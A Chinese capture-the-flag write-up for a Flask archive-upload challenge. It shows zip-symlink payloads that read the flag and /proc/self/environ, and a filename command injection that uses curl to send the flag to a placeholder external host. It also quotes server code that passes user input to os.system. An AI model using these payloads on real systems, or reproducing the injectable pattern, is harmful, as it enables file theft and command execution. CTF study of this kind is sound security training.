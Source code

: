```
```

得到两个路由，有第二个路由可知，flag在`./flag/flag.jpg`，而第一个路由的的大致意思是上传一个压缩包，然后读取里面文件的内容，以图片的形式显示出来。

#### 解法一

这儿我们想到了软链接的任意文件读取
payload1:

```
ln -s /proc/self/cwd/flag/flag.jpg HyyMbb
zip -ry HyyMbb.zip HyyMbb 
```

这儿的`/proc/self/cwd`表示当前的工作目录

payload2:

```
ln -s /proc/self/environ   HyyMbb
zip -ry HyyMbb.zip   HyyMbb
ln -s /ctf/hgfjakshgfuasguiasguiaaui/myflask/flag/flag.jpg   HyyMbb
zip -ry HyyMbb.zip   HyyMbb 
```

`/proc/self/environ`文件里包含了进程的环境变量，可以从中获取 flask 应用的绝对路径

payload3:

```
$(III=`awk 'BEGIN{printf \"%c\", 47}'`&&curl xxx.xxx.xxx.xxx:9999 -T `echo ${III}ctf${III}hgfjakshgfuasguiasguiaaui${III}myflask${III}flag${III}flag.jpg`).zip 
```

`$()`和反引号都是命令替换，例如`todaydate=$(date +%Y%m%d)`
执行`date +%Y%m%d)`返回的值赋给todaydate
$()里面的命令都会执行，不管是否赋值成功~

#### 解法二

```
f=request.files['file']
path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
filename = f.filename
pathname = path+filename
try:
	cmd = "unzip -n -d "+path+" "+ pathname
	if cmd.find('|') != -1 or cmd.find(';') != -1:
		waf()
		return 'error'
	os.system(cmd) 
```

filename和session[‘username’]我们都是可控的，然后参数之间拼接到命令：

```
"unzip -n -d "+path+" "+ pathname 
```
